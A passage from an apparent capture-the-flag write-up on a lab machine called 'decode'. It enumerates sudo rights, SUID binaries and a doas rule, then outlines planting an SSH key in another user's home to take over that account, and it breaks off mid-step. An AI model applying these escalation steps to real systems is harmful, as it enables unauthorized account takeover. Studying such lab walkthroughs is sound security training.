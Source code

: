 `steve` does not permission for read it.

I will list the permission steve has:

```bash
steve@decode:~$ sudo -l
Matching Defaults entries for steve on decode:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steve may run the following commands on decode:
    (decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee
```

But, these permissions are not useful.

So i will list the SUID permissions:

```bash
steve@decode:~$ find / -perm -u=s 2>/dev/null
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/doas
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

**Key points:** 
- `doas` binary allows a user to execute commands as another user, typically root, based on rules defined in the `/etc/doas.conf` configuration file.

```bash
steve@decode:~$ cat /etc/doas.conf
permit nopass steve as ajneya cmd cp
```

**Key points:** 
- steve can use `cp` as ajneya.

The plan is to access `ajneya` by copying my public `id_rsa` key into `/home/steve/.ssh`, then transferring it to `ajneya`'s `.ssh` directory to gain access to their account. Since `ajneya` does not have an existing `.ssh` directory,

```bash
steve@decode:/home/ajneya$ ls -al
total 24
drwxr-xr-x 2 ajneya ajneya 4096 Apr 14  2022 .
drwxr-xr-x 4 root   root   4096 Apr 14  2022 ..
lrwxrwxrwx 1 root   root      9 Apr 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ajneya ajneya  220 Aug  4  2021 .bash_logout
-rw-r--r-- 1 ajneya ajneya 3526 Aug  4  2021 .bashrc
-rw-r--r-- 1 ajneya ajneya  807 Aug  4  2021 .profile
-r-------- 1 ajneya ajneya   33 Apr 14  2022 user.txt
```
